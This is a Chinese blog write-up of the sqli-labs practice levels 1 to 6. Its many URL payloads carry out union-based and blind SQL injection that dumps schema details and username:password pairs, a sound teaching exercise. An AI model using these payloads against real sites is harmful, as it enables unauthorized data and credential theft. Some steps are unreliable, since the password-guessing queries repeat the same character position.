





+++
date = '2025-11-17T12:03:21+08:00'
draft = false
title = 'sqli-libs writeup（Less-1 至 Less-13）'
image = "index.png"
tags = [    "SQL注入",    "Web安全", "MySQL" ] 
categories = [    "网络安全" ]

+++

- # sqli-libs writeup

  ## 前置知识

  ### 使用工具：

  - hacker —— SQL注入工具
  - ZeroOmega —— 代理工具

  使用函数：

  1. 系统函数
     - database() —— 当前数据库
     - version() —— MySQL版本
     - user() —— 数据库用户名
     - database() —— 数据库名
     - @@datadir —— 数据库路径
     - @@version_compile_os —— 操作系统版本

  2. 字符串连接函数
     - concat(str1,str2,...) —— 没有分隔符地连接字符串
     - concat_ws(separator,str1,str2,...) —— 带有分隔符地连接字符串
     - group_concat(str1,str2,...) —— 连接一个组的所有字符串，并以逗号分隔每一条数据，将查询结果放到同一个位置

  3. 辅助函数
     - Load_file(file_name):读取文件并返回该文件的内容作为一个字符串。
       - 使用条件：
         1. 必须有权限读取并且文件必须完全可读
            `and (select count(*) from mysql.user)>0` /* 如果结果返回正常,说明具有读写权限。
            `and (select count(*) from mysql.user)>0` /* 返回错误，应该是管理员给数据库帐户降权
         2. 欲读取文件必须在服务器上
         3. 必须指定文件完整的路径
         4. 欲读取文件必须小于 max_allowed_packet

  


  ### 注释：

  `--+`
  可以尝试`#`
  或者POST注入时的`-- a`、`--+a`

  ```
  or 1=1--+
  'or 1=1--+
  "or 1=1--+
  )or 1=1--+
  ')or 1=1--+
  ") or 1=1--+
  "))or 1=1--+
  ```

  ### 联合查询

  union
  **需要注意的是：union查询多个表的时候，列数要相同，比如第一个表查询了`select 1,2`，两个列，第二个表查询也是需要两个列`union select 1,2`**

  ### 逻辑运算

  #### 万能密码

  ```SQL
  Select * from admin where username=’admin’ and password=’’or 1=1#’
  ```

  #### and

  ```SQL
  Select * from users where id=1  and  1=1;
  Select * from users where id=1 && 1=1;
  Select * from users where id=1 & 1=1;
  ```

  以上三个语句效果一样，但是`&`优先级大于`=`

  ### 注入流程（重点记忆 - 注入思路）

  

  注入流程是整个SQL注入的一个地图，通过这个流程可以明确自己当前在做什么，接下来要做什么，最终目的是什么

  ### 关于information_schema

  猜数据库

  ```
  select schema_name from information_schema.schemata
  ```

  猜某库的数据表

  ```
  select table_name from information_schema.tables where table_schema=’xxxxx’
  ```

  猜某表的所有列

  ```
  Select column_name from information_schema.columns where table_name=’xxxxx’
  ```

  获取某列的内容

  ```
  Select * from
  ```

  **小技巧，可以再进行注入的时候本地打开一个数据库查看information_schema数据库，便于查看库表结构**

  ### 注入方式

  #### 报错注入

  在开发测试的过程中，数据在后端与数据库传参时，会输入一些非正常数据，导致数据库报错，而后端可能会把报错传回前端，这个时候我们可以根据报错信息对注入点进行测试，利用回显报错的这个方式叫做报错注入

  #### 盲注

  在进行SQL注入的时候，如果没有回显，那就只能使用一些辅助函数进行注入，我们不知道报错内容，这个利用辅助函数进行判断是否存在注入的方式叫做盲注。

  盲注一般分为布尔盲注，时间盲注，（还有报错盲注，这个我没有涉及过，具体的可以参考[【独家连载】mysql注入天书（一）Basic Challenges](https://xz.aliyun.com/news/371)）的Background-2 盲注的讲解部分。

  ## sqli-labs Basic Challenges (基本挑战) 1-22

  ### Less-1 

  GET - Error based - Single quotes String
  GET - 基于错误 - 单引号字符串

  1. 输入`?id=1`，返回正常页面

  hackbar payload

  ```
  ?id=1
  ```

  

  2. 输入`?id=1'`回显报错，判断可能存在SQL注入，且是字符型注入

  ```
  从回显分离出报错
  ''1'' LIMIT 0,1'
  
  拨开单引号，继续分离
  '1'' LIMIT 0,1
  
  将LIMIT 0,1限制查询语句剥离
  '1''
  
  再剥离单引号，可以看到导致报错的输入
  1'
  
  可以构造出后台查询语句
  SELECT ? 
  FROM ? 
  WHERE id='?'
  LIMIT 0,1
  ```

  hackbar payload

  ```
  ?id=1'
  ```

  

  3. 在之后加入 `--+` 闭合语句，将后面的 `LIMIT 0,1'` 注释，使报错消失

  ```
  上一步构造的语句为
  SELECT ? 
  FROM ? 
  WHERE id=? 
  LIMIT 0,1
  
  加入--+注释后构造语句为
  SELECT ? 
  FROM ? 
  WHERE id='?'
  ```

  hackbar payload

  ```
  ?id=1' --+
  --+
  ```

  

  4. 使用 `order by` 语句进行列数查询

  ```
  上一步，加入--+注释后构造语句为
  SELECT ? 
  FROM ? 
  WHERE id='?'
  
  order by 测试之后可以知道查询的列数为3，可以构造语句为，
  SELECT ?,?,?
  FROM ? 
  WHERE id='?'
  ```

  hackbar payload1

  ```
  ?id=1' order by 1,2,3 --+
  ```

  

  hackbar payload2

  ```
  ?id=1' order by 1,2,3,4 --+
  ```

  

  5. 使用联合查询`union select` 获取回显位置

  ```
  目前构造语句没有变化，但是知道了select 的位置2和3会回显，位置1不会回显
  SELECT ?1,?2,?3
  FROM ? 
  WHERE id='?'
  ```

  > 这里要先将传参`?id=1` 改为 `?id=-1` ，这样 `-1` 位置一般就不会回显，转而回显下一个目标，也就是联合查询的回显位置

  hackabr paylaod1

  ```
  ?id=-1' union select 1,2,3 --+
  ```

  

  可以知道回显的参数时位置2和3，我们注入的时候从这两个位置进行注入就行

  6. 使用联合查询`union select` 尝试获取数据库

  ```
  以上构造语句
  SELECT ?1,?2,?3
  FROM ? 
  WHERE id='?'
  
  联合查询之后，从这里知道了数据库，接下来我们的目标是获取列名
  SELECT ?1,?2,?3
  FROM security.?
  WHERE id='?'
  ```

  hackbar payload 1

  ```
  ?id=-1' union select 1,2,database() 
  --+
  ```

  

  7. 联合查询，获取当前库有哪些表

  ```
  之前的构造语句
  SELECT ?1,?2,?3
  FROM security.?
  WHERE id='?'
  
  现在的构造语句，其实没有什么变化，只是表查询出来之后可能是任何一个表
  SELECT ?1,?2,?3
  FROM security.[emails,referers,uagents,users]
  WHERE id='?'
  ```

  > 这里要解释一下为什么payload这么构造
  > `information_schema` 是MySQL的系统信息数据库，它存放了
  > 	-> 数据库和表的结构信息
  > 	-> 列定义、索引、约束等详细信息
  > 	-> 用户权限和特权信息
  > 	-> 数据库监控和维护操作
  >
  > `information_schema.tables` 这个表存放了：  
  > 	**表基本信息**：表名（TABLE_NAME）、所属数据库（TABLE_SCHEMA）  
  > 	**表类型**：表类型（TABLE_TYPE）如 BASE TABLE（基本表）、VIEW（视图） 
  > 	**存储引擎**：ENGINE（如 InnoDB、MyISAM）  
  > 	**创建信息**：创建时间（CREATE_TIME）、更新时间（UPDATE_TIME）  
  > 	**行数统计**：TABLE_ROWS（表的大概行数）  
  > 	**数据大小**：数据长度（DATA_LENGTH）、索引长度（INDEX_LENGTH）  
  > 	**字符集**：表字符集和排序规则  
  > 	**表注释**：TABLE_COMMENT
  >
  > `table_schema` 是`information_schema.tables`这个表中数据库的字段

  hackbar payload 

  ```
  ?id=-1' union 
  select 1,2,group_concat(table_name) 
  from information_schema.tables 
  where table_schema='security'
  --+
  ```

  

  8. 查询表结构

  ```
  当前构造语句
  SELECT ?1,?2,?3
  FROM security.[emails,referers,uagents,users]
  WHERE id='?'
  
  查询每个表的字段
  emails 有两个字段 id,email_id 排除
  referers 有三个字段 id,referer,ip_address 可能是
  uagents 有四个字段 id,uagent,ip_address,username 排除
  users 有三个字段 id,username,password 可能是
  
  现在有两种可能
  1
  SELECT id,referer,ip_address
  FROM security.referers
  WHERE id='1'
  
  2
  SELECT id,username,password 
  FROM security.users 
  WHERE id='1' 
  
  ```

  hackbar paylaod 1

  ```
  ?id=-1' union 
  select 1,2,group_concat(column_name) 
  from information_schema.columns 
  where table_schema='security' and table_name='emails' 
  --+
  ```

  

  hackbar paylaod 2

  ```
  ?id=-1' union 
  select 1,2,group_concat(column_name) 
  from information_schema.columns 
  where table_schema='security' and table_name='referers' 
  --+
  ```

  

  hackbar paylaod 3

  ```
  ?id=-1' union 
  select 1,2,group_concat(column_name) 
  from information_schema.columns 
  where table_schema='security' and table_name='uagents' 
  --+
  ```

  

  hackbar paylaod 4

  ```
  ?id=-1' union 
  select 1,2,group_concat(column_name) 
  from information_schema.columns 
  where table_schema='security' and table_name='users' 
  --+
  ```

  

  9. 测试两个可能性，得出表、列结构

  ```
  由上一步猜测的两个构造语句
  1
  SELECT id,referer,ip_address
  FROM security.referers
  WHERE id='1'
  
  2
  SELECT id,username,password 
  FROM security.users 
  WHERE id='1' 
  
  构造出当前这一步的两个payload
  最后成功确认后端查询语句
  SELECT id,username,password 
  FROM security.users 
  WHERE id='1' 
  ```

  hackbar payload 1

  ```
  ?id=-1' union 
  select id,referer,ip_address
  from referers 
  --+
  ```

  

  hackbar payload 2

  ```
  ?id=-1' union 
  select id,username,password 
  from users
  --+
  ```

  

  10. 最后，使用group_concat注入出用户名密码

  ```
  查询语句为
  SELECT id,username,password 
  FROM security.users 
  WHERE id='1' 
  
  查询当前库时，security可省略
  SELECT id,username,group_concat(user,':',password)
  FROM users 
  WHERE id='1' 
  ```

  hackbar payload

  ```
  ?id=-1' union 
  select id,username,group_concat(username,':',password) 
  from users 
  --+
  ```

  

  ### Less-2

  GET - Error based - Intiger based
  GET - 基于错误 - 基于整数

  1. 输入`?id=1` 回显报错，这里再推荐一个判断是字符型报错和数字型报错的一个方法：再加一个'(单引号)

  > 在输入一个单引号报错之后，再输入一个单引号，进行闭合，如果成功闭合，报错消失，那就是字符型注入；如果报错还在，没有闭合，那就是数字型注入。

  hackbar payload 1

  ```
  ?id=1' --+
  ```

  

  hackbar payload 2

  ```
  ?id=1'' --+
  ```

  

  如果hackbar payload 2回显正常，说明注入是字符串注入，因为他成功闭合了引号，如果回显继续报错，说明注入是数字型注入。（也可以回到Less 1测试一下）

  2. 后续的payload和Less 1完全一样，获取列数

  hackbar payload

  ```
  ?id=1 order by 1,2,3 --+
  ```

  

  3. 获取注入点

  hackbar payload

  ```
  ?id=-1 union select 1,2,3 --+
  ```

  

  4. 获取数据库名

  backbar paylaod

  ```
  ?id=-1 union select 1,2,database() --+
  ```

  

  5. 获取表名

  hackbar payload

  ```
  ?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
  ```

  6. 获取列名

  hackbar payload

  ```
  ?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' --+
  ```

  7. 获取内容

  hackbar payload

  ```
  ?id=-1 union select 1,2,group_concat(username,':',password) from users --+
  ```

  

  ### Less-3 

  GET - Error based - Single quotes with twist - String

  GET - 基于错误 - 单引号的变体 - 字符串

  1. 输入 `?id=1'` 测试注入点

  ```
  报错分析
  ''1'') LIMIT 0,1'
  
  分离单引号
  '1'') LIMIT 0,1
  '1'')
  
  这里有一个后括号，先构造查询语句
  select ?
  from ?
  where ? = ('?')
  
  此时如果注释输入位置那么就会变成
  select ?
  from ?
  where ? = ('? --+ ')
  
  后面缺失了一个')，这时候输入的任何内容都会被当作查询内容执行，无法进行注入，需要将)也进行闭合
  ```

  hackbar paylaod 1

  ```
  ?id=1'
  ```

  

  hackbar paylaod 2

  ```
  ?id=1')
  ```

  

  hackbar paylaod 3

  

  2. 查询列数

  hackbar paylaod

  ```
  ?id=1') order by 1,2,3 --+
  ```

  

  3. 查询注入点

  hackbar paylaod

  ```
  ?id=-1') union select 1,2,3 --+
  ```

  

  4. 查询数据库

  hackbar paylaod

  ```
  ?id=-1') union select 1,2,database() --+
  ```

  

  5. 查询表名

  hackbar paylaod

  ```
  ?id=-1') union select 1,2,group_concat(table_name) 
  from information_schema.tables 
  where table_schema=database() --+
  ```

  

  6. 查询列名

  hackbar paylaod

  ```
  ?id=-1') union select 1,2,group_concat(column_name) 
  from information_schema.columns 
  where table_schema=database() and table_name='users' --+
  ```

  

  7. 查询具体数据

  hackbar paylaod

  ```
  ?id=-1') union select 1,2,group_concat(username,':',password) 
  from users --+
  ```

  

  ### Less-4

  GET - Error based - Double Quotes - String
  GET - 基于错误 - 双引号 - 字符串

  1. 寻找注入点

  ```
  单引号没有反应，双引号回显报错
  '"1"") LIMIT 0,1'
  
  分析，剥离引号
  "1"") LIMIT 0,1
  "1"")
  
  需要闭合的是 ")
  ```

  hackbar payload 1

  ```
  ?id=1'
  ```

  

  hackbar payload 2

  ```
  ?id=1"
  ```

  

  hackbar payload 3

  ```
  ?id=1") --+
  ```

  

  2. 查询列数

  hackbar payload

  ```
  ?id=1") order by 1,2,3 --+
  ```

  

  3. 查询注入点

  hackbar payload

  ```
  ?id=-1") union select 1,2,3 --+
  ```

  

  4. 查询数据库

  hackbar payload

  ```
  ?id=-1") union select 1,2,database() --+
  ```

  

  5. 查询表

  hackbar payload

  ```
  ?id=-1") union select 1,2,group_concat(table_name) 
  from information_schema.tables 
  where table_schema=database() --+
  ```

  

  6. 查询列

  hackbar payload

  ```
  ?id=-1") union select 1,2,group_concat(column_name) 
  from information_schema.columns 
  where table_schema=database() and table_name='users' --+
  ```

  

  7. 查询数据

  hackbar payload

  ```
  ?id=-1") union select 1,2,group_concat(username,':',password) 
  from users --+
  ```

  

  ### Less-5

  GET - Double Injection - Single Quotes - String
  GET - 双重注入 - 单引号 - 字符串

  **从这里开始，难度就开始增加一级了**

  从这里开始，不再标注时hackbar的paylaod，可以根据截图和paylaod自行进行判断

  记得在记事本里保存语句，可以快速修改payload。

  1. 测试注入点，报错判断是单引号，使用 and 语句判断回显，表明存在注入

  ```
  ?id=1'
  ```

  

  ```
  ?id=1' --+
  ```

  

  ```
  ?id=1' and 1=1 --+
  ```

  

  ```
  ?id=1' and 1=2 --+
  ```

  

  2. 判断查询列数

  这之后回显都是一样的，就不放回显了

  ```
  ?id=1' order by 1,2,3 --+
  ```

  4. 查询数据库

  由于没有回显，这里需要使用盲注

  ```
  ?id=1' and length(database())=8 --+
  ```

  使用辅助函数逐个猜解字符

  ```
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),1)='s' --+
  
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),2)='se' --+
  
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),3)='sec' --+
  
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),4)='secu' --+
  
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),5)='secur' --+
  
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),6)='securi' --+
  
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),7)='securit' --+
  
  http://192.168.242.27/Less-5/
  ?id=1' and left(database(),8)='security' --+
  ```

  5. 查询表

  同样使用盲注

  查询表数量

  ```
  有4个表
  ?id=1' and (select count(table_name) 
  from information_schema.tables 
  where table_schema=database())=4 --+
  ```

  查询表长度

  ```
  第1个表长度为6
  ?id=1' and length((
  select table_name 
  from information_schema.tables 
  where table_schema=database() 
  limit 0,1))=6 --+
  
  第2个表长度为8
  ?id=1' and length((
  select table_name 
  from information_schema.tables 
  where table_schema=database() 
  limit 1,1))=8 --+
  
  第3个表长度为7
  ?id=1' and length((
  select table_name 
  from information_schema.tables 
  where table_schema=database() 
  limit 2,1))=7 --+
  
  第4个表长度为5
  ?id=1' and length((
  select table_name 
  from information_schema.tables 
  where table_schema=database() 
  limit 3,1))=5 --+
  ```

  猜解第1个表名

  ```
  表名 emails
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 0,1),
  1,1)='e' 
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 0,1),
  2,1)='m' 
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 0,1),
  3,1)='a' 
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 0,1),
  4,1)='i' 
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 0,1),
  5,1)='l' 
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 0,1),
  6,1)='s' 
  --+
  ```

  猜解第2个表名

  ```
  表名 referers
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  1,1)='r'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  2,1)='e'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  3,1)='f'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  4,1)='e'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  5,1)='r'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  6,1)='e'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  7,1)='r'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 1,1),
  8,1)='s'
  --+
  ```

  猜解第3个表名

  ```
  表名 uagents
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 2,1),
  1,1)='u'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 2,1),
  2,1)='a'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 2,1),
  3,1)='g'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 2,1),
  4,1)='e'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 2,1),
  5,1)='n'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 2,1),
  6,1)='t'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 2,1),
  7,1)='s'
  --+
  ```

  猜解第4个表名

  ```
  表名 users
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 3,1),
  1,1)='u'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 3,1),
  2,1)='s'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 3,1),
  3,1)='e'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 3,1),
  4,1)='r'
  --+
  
  ?id=1' and 
  substr((
    select table_name 
    from information_schema.tables 
    where table_schema=database() 
    limit 3,1),
  5,1)='s'
  --+
  ```

  6. 查询users表字段数量

  ```
  http://192.168.242.27/Less-5/
  ?id=1' and (select count(column_name) 
  from information_schema.columns 
  where table_name='users')=3 --+
  ```

  7. 猜解字段

  猜解字段长度

  ```
  第1个字段长度为2
  ?id=1' and 
  length(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 0,1)
  )=2
  --+
  
  第2个字段长度为8
  ?id=1' and 
  length(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1)
  )=8
  --+
  
  第3个字段长度为8
  ?id=1' and 
  length(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1)
  )=8
  --+
  ```

  猜解字段名

  ```
  第1个字段名为id
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 0,1),
  1,1)='i'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 0,1),
  2,1)='d'
  --+
  ```


  ```
  第2个字段名为username
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  1,1)='u'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  2,1)='s'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  3,1)='e'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  4,1)='r'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  5,1)='n'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  6,1)='a'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  7,1)='m'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 1,1),
  8,1)='e'
  --+
  ```


  ```
  第3个字段名为password
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  1,1)='p'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  2,1)='a'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  3,1)='s'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  4,1)='s'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  5,1)='w'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  6,1)='o'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  7,1)='r'
  --+
  
  ?id=1' and 
  substr(
    (select column_name 
    from information_schema.columns 
    where table_schema=database() and table_name='users' limit 2,1),
  8,1)='d'
  --+
  ```

  8. 最后，注入出数据

  这里我就注入出第1个用户名密码，其他位置可以自行尝试

  ```
  猜解第1个用户名 Dumb
  ?id=1' and 
  substr((
    select username from users 
    limit 0,1),
  1,1)='D'
  --+
  
  ?id=1' and 
  substr((
    select username from users 
    limit 0,1),
  2,1)='u'
  --+
  
  ?id=1' and 
  substr((
    select username from users 
    limit 0,1),
  3,1)='m'
  --+
  
  ?id=1' and 
  substr((
    select username from users 
    limit 0,1),
  4,1)='b'
  --+
  ```

  ```
  猜解第1个用户的密码
  ?id=1' and 
  substr((
    select password from users 
    limit 0,1),
  1,1)='D'
  --+
  
  ?id=1' and 
  substr((
    select password from users 
    limit 0,1),
  1,1)='u'
  --+
  
  ?id=1' and 
  substr((
    select password from users 
    limit 0,1),
  1,1)='m'
  --+
  
  ?id=1' and 
  substr((
    select password from users 
    limit 0,1),
  1,1)='b'
  --+
  ```

  以此类推，可以注入出所有数据

  ### Less-6

  GET - Double Injection - Double Quotes - String
  GET - 双重注入 - 双引号 - 字符串

  1. 寻找注入点，单引号没反应，双引号回显报错

  ```
  ?id=1"--+
  ```

  

  ```
  ?id=1" --+
  ```

  

  2. 查询列数量猜解

  ```
  ?id=1" order by 1,2,3 --+
  ```

